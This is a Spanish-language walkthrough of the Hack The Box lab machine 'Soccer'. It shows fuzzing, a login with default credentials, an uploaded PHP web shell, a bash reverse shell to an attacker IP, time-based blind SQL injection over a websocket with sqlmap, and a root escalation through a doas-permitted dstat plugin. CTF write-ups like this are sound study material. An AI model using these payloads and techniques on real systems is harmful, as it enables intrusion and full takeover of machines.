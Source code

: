 ```yaml
---
title: Soccer
date: 2023-02-23 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: []     # TAG names should always be lowercase
---
```


```shell

```
En primera nos encontramos con una página aparentemente estática, nos ponemos a fuzzear y encontramos un directorio tiny donde tiene un login, 

![imagen1](/assets/images/Soccer/soccer.png)

```shell
❯ wfuzz -c --hc=404 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 'http://soccer.htb/FUZZ'
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://soccer.htb/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                     
=====================================================================

000000001:   200        147 L    526 W      6917 Ch     "# directory-list-2.3-medium.txt"                                                                                                           
000000007:   200        147 L    526 W      6917 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"                                                                           
000000003:   200        147 L    526 W      6917 Ch     "# Copyright 2007 James Fisher"                                                                                                             
000000012:   200        147 L    526 W      6917 Ch     "# on at least 2 different hosts"                                                                                                           
000000013:   200        147 L    526 W      6917 Ch     "#"                                                                                                                                         
000000014:   200        147 L    526 W      6917 Ch     "http://soccer.htb/"                                                                                                                        
000000011:   200        147 L    526 W      6917 Ch     "# Priority ordered case-sensitive list, where entries were found"                                                                          
000000010:   200        147 L    526 W      6917 Ch     "#"                                                                                                                                         
000000009:   200        147 L    526 W      6917 Ch     "# Suite 300, San Francisco, California, 94105, USA."                                                                                       
000000006:   200        147 L    526 W      6917 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"                                                                             
000000004:   200        147 L    526 W      6917 Ch     "#"                                                                                                                                         
000000008:   200        147 L    526 W      6917 Ch     "# or send a letter to Creative Commons, 171 Second Street,"                                                                                
000000002:   200        147 L    526 W      6917 Ch     "#"                                                                                                                                         
000000005:   200        147 L    526 W      6917 Ch     "# This work is licensed under the Creative Commons"                                                                                        
000008034:   301        7 L      12 W       178 Ch      "tiny"                                           
```
![imagen2](/assets/images/Soccer/soccer2.png)

Aquí intentamos las clásicas credenciales admin:admin pero sin logro, tiny file manager es un opersource que permite la organización de archivos, intentemos encontrar contraseñas por defecto de este framework y encontramos admin:admin@123. Al introducirlas en el login nos logeamos exitosamente en la plataforma.

![imagen3](/assets/images/Soccer/soccer3.png)

Aquí podemos observar varios archivos guardados, en la carpeta tiny encontramos otra de uploads, la plataforma tiene un botón en la esquina superior derecha que dice uploads, hacemos una test creando un archivo prueba.txt para validar que se suba correctamente el archivo y podemos visualizarlo en /uploads/prueba.txt.

![imagen4](/assets/images/Soccer/soccer4.png)

![imagen5](/assets/images/Soccer/soccer5.png)

Ahora intentamos subir un archivo php que nos pueda ejecutar comandos. Al subirlo vemos que nos interpreta correctamente php, así mismo podemos entablarnos una conexión a la máquina.

```php
<?php

system($_GET['cmd']);

<?
```
![imagen6](/assets/images/Soccer/soccer6.png)

Creamos un archivo index.html con una reverse shell y aplicamos un curl junto con un bash para darnos una conexión por nc y ya estamos dentro.

```shell
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'
```

![imagen7](/assets/images/Soccer/soccer7.png)

Dentro inciando la enumeración nos encotramos con un subdominio en /etc/hosts

```shell
www-data@soccer:/$ cat /etc/hosts
127.0.0.1	localhost	soccer	soccer.htb	soc-player.soccer.htb

127.0.1.1	ubuntu-focal	ubuntu-focal
```
Entramos a este nuevo subdominio y nos encotramos con una web similar a soccer.htb pero en esta nos podemos registrar y logear. Al hacerlo, vemos un apartado de tickets donde se introducce el número de ticket y valida si es correcto, lo raro es que no se puede interceptar esta petición por burpsuite. Revisando el código fuente vemos que esto es porque es un websocket el que manda la información.

![imagen8](/assets/images/Soccer/soccer8.png)

![imagen9](/assets/images/Soccer/soccer9.png)

Interceptamos la información que se está enviando por burpsuite en su apartado de websockets. y vemos que envía la key id para validar el ticket y recibimos la respuesta del servidor que en este caso en ticket inválido.

![imagen10](/assets/images/Soccer/soccer10.png)

Este websocket está validando el ticket en alguna base de datos, por lo que podemos hacer pruebas de inyección para intentar obtener información. Al ver que cualquier query que mandemos nos arroja un "Ticket Doesn't Exist" por lo que Error based no podría funcionar, intentemos con time based para validar y parece que funciona al aplicar un sleep.

![imagen11](/assets/images/Soccer/soccer11.png) 

En este punto podríamos revisar manual por la información, pero al buscar en google sobre sql injection de websocket, encontramos con este [Link](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html "link") que nos crear un servicio http para que pueda ser usado con sqlmap, en este script solo cambiamos el ws-server con pro-player.soccer.htb:9092 y la data por id. Iniciamos el servicio y con sql map hacemos las inyecciones a nuestro localhost por el puerto que estableciste en el script. Haciendo esto nos encontramos los schemas donde una de ellas pudimos obtener las credenciales del usuario player, las usamos por ssh y estamos dentro.

```shell
❯ sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.4#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


[*] starting @ 13:24:22 /2023-02-23/

<SNIP>
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 97 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 6058 FROM (SELECT(SLEEP(5)))OoXy)
---
<SNIP>
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```
Dentro revisamos los permisos suid y encontramos el binario doas que es un programa para ejecutar comandos como otro usuario. El administrador del sistema puede configurarlo para otorgar privilegios a usuarios específicos para ejecutar comandos específicos.

```shell
player@soccer:/$ find \-perm -4000 2>/dev/null
./usr/local/bin/doas
./usr/lib/snapd/snap-confine
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/eject/dmcrypt-get-device
./usr/bin/umount
```
Buscando en internet vemos que este binario cuenta con un archivo de configuración que muestra los permisos para usarlo. En este caso encontramos que el usuario player tiene el permiso de usar /usr/bin/dstat como root.

```shell
player@soccer:/$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```
dstat nos permite visualizar el rendimiento y recursos de nuestro equipo, cuando se inicia este ejecuta los plugins que tiene ubicado en /usr/local/share/dstat, podemos crear un archivo python dentro de esta ruta para que al momento de ejecutar doas podramos poner la bash suid, para eso seguimos estos pasos.

```shell
player@soccer:echo 'import os; os.execv("/bin/bash", ["bash"])' >/usr/local/share/dstat/dstat_exploit.py
player@soccer:/usr/local/bin/doas -u root /usr/bin/dstat --expoit
```
Y con esto habremos rooteado la máquina.
